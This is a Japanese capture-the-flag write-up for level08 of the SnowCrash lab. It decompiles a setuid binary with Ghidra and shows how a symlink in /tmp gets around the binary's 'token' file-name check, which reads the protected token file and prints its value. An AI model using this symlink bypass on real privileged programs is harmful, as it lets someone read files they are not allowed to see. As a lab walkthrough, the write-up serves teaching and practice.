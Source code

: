 ## ~に存在するファイルを確認
```sh
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

## ghidraで逆アセンブル
```c
void main(int param_1,undefined4 *param_2)

{
  char *pcVar1;
  int __fd;
  size_t __n;
  int in_GS_OFFSET;
  undefined local_414 [1024];
  int local_14;

  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (param_1 == 1) {
    printf("%s [file to read]\n",*param_2);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar1 = strstr((char *)param_2[1],"token");
  if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",param_2[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  __fd = open((char *)param_2[1],0);
  if (__fd == -1) {
    err(1,"Unable to open %s",param_2[1]);
  }
  __n = read(__fd,local_414,0x400);
  if (__n == 0xffffffff) {
    err(1,"Unable to read fd %d",__fd);
  }
  write(1,local_414,__n);
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

## 関数のポイント
- `strstr`を使用し、`argv[1]`に`token`文字列が含まれているか確認している。もし、含まれている場合はエラーになる。
- `argv[1]`で指定されたファイルを開き`read`した内容を出力している。

## エクスプロイト
`token` 文字列含めないようにして`token file`を指すようなシンボリックリンクを作成すれば`strstr`のチェックを回避できる。

```sh
level08@SnowCrash:~$  ln -s /home/user/level08/token /tmp/hoge
level08@SnowCrash:~$  ./level08 /tmp/hoge
quif5eloekouj29ke0vouxean
```